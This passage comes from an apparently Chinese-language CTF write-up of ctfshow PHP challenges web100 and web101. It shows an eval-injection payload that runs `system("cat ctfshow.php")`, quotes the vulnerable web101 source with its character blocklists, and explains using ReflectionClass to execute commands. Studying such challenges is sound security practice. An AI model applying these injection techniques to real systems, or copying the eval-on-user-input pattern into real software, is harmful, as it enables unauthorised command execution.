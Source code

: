 所以这里我们只需要让v1为数字，后面两个参数可控，v2,v3过滤了分号，

现在就要解决

```
eval("$v2('ctfshow')$v3");
```

突然发现题目注释里有  `flag in class ctfshow; `

我这里直接用管道符了`||`

```
?v1=1&v2=system("cat ctfshow.php")||&v3=;
```



### web101

```
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
} 
```

这个题相比上个，增加了许多过滤

主要还是构造

```
eval("$v2('ctfshow')$v3"); 
```

这里也是看了很多师傅的wp才理解，需要讲一下

`ReflectionClasss`

> 反射类ReflectionClass执行命令
>
> ReflectionClass反射类在PHP5新加入，继承自Reflector，它可以与已定义的类建立映射关系，通过反射类可以对类操作
> 反射类不仅仅可以建立对类的映射，也可以建立对PHP基本方法的映射，并且返回基本方法执行的情况。因此可以通过建立反射类new ReflectionClass(system('cmd'))来执行命令


